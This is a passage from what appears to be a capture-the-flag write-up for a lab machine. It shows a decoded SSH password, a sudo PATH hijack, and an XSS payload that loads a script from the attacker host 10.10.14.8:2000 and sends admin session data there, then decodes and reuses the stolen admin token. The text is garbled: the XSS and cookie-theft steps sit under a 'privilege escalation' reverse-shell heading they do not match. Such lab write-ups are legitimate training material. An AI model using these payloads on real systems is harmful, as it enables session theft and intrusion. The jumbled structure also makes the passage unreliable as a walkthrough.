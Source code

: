 The response contains sensitive data. Decoding the hexadecimal reveals:

```
keira//SomedayBitCoinWillCollapse
```

This is the SSH password for the user `keira`.

---

## User Access

### SSH Access

Using the credentials obtained:

```bash
ssh keira@10.10.11.43
Password: SomedayBitCoinWillCollapse
```

---

## Privilege Escalation to Paul

### Exploiting PATH Vulnerability

We observe that `keira` can execute a script under `paul`'s permissions:

```bash
sudo -u paul PATH=/tmp/rev:$PATH /home/paul/.foundry/bin/forge completions bash
```

We prepare a reverse shell payload:

```bash
We create the following payload in a file named shat.js:
fetch('/api/info')
  .then(response => response.text())
  .then(text => {
    fetch('http://10.10.14.8:2000/log?' + new URLSearchParams({ log: btoa(text) }), {
      mode: 'cors' // Allow cross-origin request
    });
  });

Next, we host the file on a Python HTTP server:
python3 -m http.server 2000

We embed the following XSS payload in the "Report User" field:
<img src="x" onerror="var script=document.createElement('script');script.src='http://10.10.14.8:2000/shat.js';document.head.appendChild(script);">

When the admin processes the report, a request containing sensitive information is sent to our server. The intercepted request looks like this:
GET /log?log=eyJyb2xlIjoiYWRtaW4iLCJ0b2tlbiI6ImV5SmhiR2NpT2lKSVV6STFOaUlz...
Decoding the Admin Token

We extract the Base64-encoded payload and decode it:
echo "eyJyb2xlIjoiYWRtaW4iLCJ0b2tlbiI6ImV5..." | base64 -d

Output:
{"role":"admin","token":"<JWT_TOKEN>","username":"admin"}

We modify the session cookie with the extracted admin token, gaining access to admin-only features.
Blockchain Interaction
Intercepting Requests

```